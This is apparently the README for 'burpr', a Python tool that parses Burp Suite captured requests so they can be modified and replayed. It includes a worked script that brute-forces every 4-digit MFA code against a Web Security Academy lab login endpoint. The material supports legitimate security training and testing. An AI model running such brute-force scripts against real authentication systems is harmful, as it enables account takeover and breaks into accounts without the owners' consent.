# What is it
A Burp Suite request parser, used for aid in assessing application security functionality.

# Why I wrote it
To use Burp Suite captured requests without relying on intruder.

# Installation
```
pip install burpr
```

# Usage
Use burpr.py module to parse the Burp Suite copied request. Then use the created object to extract headers and body.

Supports parsing requests as strings and as .txt files.

```python
import burpr

# Load from string
req = burpr.parse_string(req_string)

# Load from file
req = burpr.parse_file(req_file_path)

# clone the request
req_clone = burpr.clone(req)

# change protocol to http1.1
req_clone.set_protocol(burpr.protocols.HTTP1_1)

# change transport to http
req_clone.set_transport(burpr.transports.HTTP)

# modify the header
req_clone.set_header("Cookie", "session=modified_session_cookie")

# modify the parameter
req_clone.set_parameter("post-param", "AAABBBCCC")

# remove parameter
req_clone.remove_parameter("post-param")

# remove header
req_clone.remove_header("Cookie")

# adjust Content-Length for parameter change
burpr.prepare(req_clone)

client = httpx.Client(http2=True)
res = client.post(req.url, headers=req.headers, data=req.body)
```

# Examples
## Brute force broken MFA
```python
import burpr
import httpx
import itertools

burp_request = r"""POST /login2 HTTP/2
Host: xxxx.web-security-academy.net
Cookie: verify=carlos; session=xxxx
Content-Length: 13
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://xxxx.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://xxxx.web-security-academy.net/login2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

mfa-code=4321
"""

def generate_pin_numbers():
  return [''.join(list([str(digit) for digit in permutation])) 
          for permutation in itertools.product(list(range(0, 10)), repeat=4)]

def brute_force_broken_mfa():
  # Parse request from string
  req = burpr.parse_string(burp_request)

  # Create http client and check the protocol used
  client = httpx.Client(http2=req.is_http2)

  for pin in generate_pin_numbers():
    # Modify the mfa-code parameter
    req.set_parameter("mfa-code", pin)

    # Send the request
    res = client.post(req.url, headers=req.headers, data=req.body)

    print(res.status_code, pin)
    
    if (res.status_code != 200):
      break

brute_force_broken_mfa()
```
